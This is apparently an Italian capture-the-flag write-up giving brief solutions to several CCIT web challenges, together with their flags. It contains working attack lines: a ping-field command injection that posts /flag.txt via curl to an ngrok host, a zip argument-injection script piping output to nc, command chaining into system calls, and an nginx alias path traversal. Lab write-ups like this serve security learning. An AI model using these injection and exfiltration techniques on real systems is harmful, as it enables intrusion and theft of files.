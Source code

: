 # Basic RCE
Usare ngrok, farlo partire ./ngok http 5000
Sul ping utilizzare le variabili di ambiente e scrivere:
`google.com;curl${IFS}-F${IFS}'flag=@/flag.txt'${IFS}http://8ca2d7c8.ngrok.io`
Prima di pingare far partire nc -lvp 5000 per aprire la porta poi premere su ping, ed appare la flag su nc.

# PHPislovePHPislife
}; print ${$strings{4}} ?> -> `CCIT{Wh4t_Ar3_You_Do1ng_ou7_of_My_Sandb0x}`.

# Zip Zap lvl 2
Creare due file:
`touch -- -T, touch -- -TT`

Creare l'exploit, chiamato ex.sh che contiene:
```
#!/bin/bash
../../../../getflag | nc tcp.ngrok.io porta
```
Si avranno ora 3 file: -T, -TT, ex.sh
Creare un altro file:
`touch "bash ex.sh"`
Che invoca il file ad eseguirlo.

Zippare tutto con:
`zip -- *`
Aprire la porta con cui si è fatto partire ngrok.
Mandare lo zip al server, dovrebbe dare internal server error, e la flag appare su nc -> `CCIT{N0t_en0ugh_Quot3s}`



# Plotty Boy
Si applica una concatenzazione di comandi separati da ';', sin(x); system "ngrok ...".
nc aperto sempre sulla porta di ngrok ed appare la flag -> `CCIT{Pl0ttyb01_4_A_sin3Boy}`.


# 302Camo
Pubblicare un post, [img]ngrok ...[/img]
Tenere ngrok attivo e nc -lvp 5000 (porta con cui abbiamo startato ngrok).
Fare un curl di url -> ispezione immagine di camo -> mettere \ dopo = e & ed appare la flag `CCIT{PHP_s0met1ms_1ts_funn1}`


# Not a Bug. It's a Feature
Se si vede il sorgente la falg si trova su app.py, ma possiamo accedere solo a static dal file .conf, che è un alias.
Se faccioamo static/../app.py (cercando di retrocedere di una cartella) non va, con static../app.py appare la flag `CCIT{put_4_sl4sh_1n_th0s3_ali4s3s!}`.

